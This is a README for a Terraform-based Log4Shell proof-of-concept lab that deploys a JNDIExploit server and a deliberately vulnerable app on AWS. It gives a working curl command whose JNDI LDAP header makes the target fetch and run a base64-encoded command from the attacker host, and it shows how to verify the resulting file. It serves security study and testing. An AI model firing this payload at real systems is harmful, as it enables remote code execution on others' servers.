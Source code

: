 # terraform-log4shell

Log4Shell POC Using Terraform

# About

This terraform creates two instances on a VPC in AWS Cloud:

- [JNDIExploit](https://github.com/feihong-cs/JNDIExploit)
- [Vulnerable-App](https://github.com/christophetd/log4shell-vulnerable-app)

Please ensure that you have configured aws cli with your Access key ID and Secret access key.
In order to ssh into the ec2 instances, please update ssh public key in terraform before running terraform apply

```bash
terraform init
terraform plan
terraform apply --auto-approve
```

# Exploitation (Remote Code Execution) Steps

_Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk**._

- Trigger the exploit using:

```bash
curl ${log4shellapp-ip}:8080 -H 'X-Api-Version: ${jndi:ldap://${jndiexploit-ip}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

- To confirm that the code execution was successful, notice that the file `/tmp/pwned` was created in log4shellapp's container. First ssh into log4shellapp ec2 instance using your private key and run:

```bash
sudo docker exec -ti vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://bigb0ss.medium.com/appsec-log4shell-cve-2021-44228-606f91e56866
